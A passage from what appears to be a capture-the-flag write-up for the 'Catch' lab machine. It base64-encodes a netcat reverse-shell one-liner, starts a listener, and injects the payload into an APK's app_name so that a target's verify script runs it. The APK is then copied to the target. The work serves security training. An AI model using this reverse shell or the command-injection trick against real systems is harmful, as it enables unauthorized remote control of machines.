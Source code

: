 ```bash
will@catch:/dev/shm/tgihf$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.122 443 >/tmp/f' | base64 -w 0
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMTIyIDQ0MyA+L3RtcC9mCg==
```

Start a reverse shell listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Since `catchv1.0.apk` meets the criteria to pass `verify.sh`'s checks, simply update its `app_name` with the payload, repack it, and transfer the resultant APK to the target.

```bash
$ apktool d catchv1.0.apk
I: Using Apktool 2.6.1 on catchv1.0.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/tgihf/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...

$ sed -i 's/Catch/Catch;echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMTIyIDQ0MyA+L3RtcC9mCg== | base64 -d | sh/g' catchv1.0/res/values/strings.xml

$ cat catchv1.0/res/values/strings.xml | grep app_name
    <string name="app_name">Catch;echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMTIyIDQ0MyA+L3RtcC9mCg== | base64 -d | sh</string>

$ apktool b catchv1.0
I: Using Apktool 2.6.1
I: Checking whether sources has changed...
I: Smaling smali folder into classes.dex...
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...

$ scp catchv1.0/dist/catchv1.0.apk will@catch.htb:/dev/shm/tgihf/tgihf.apk
will@catch.htb's password:
catchv1.0.apk                                                                                                                         100% 2713KB   1.1MB/s   00:02
```
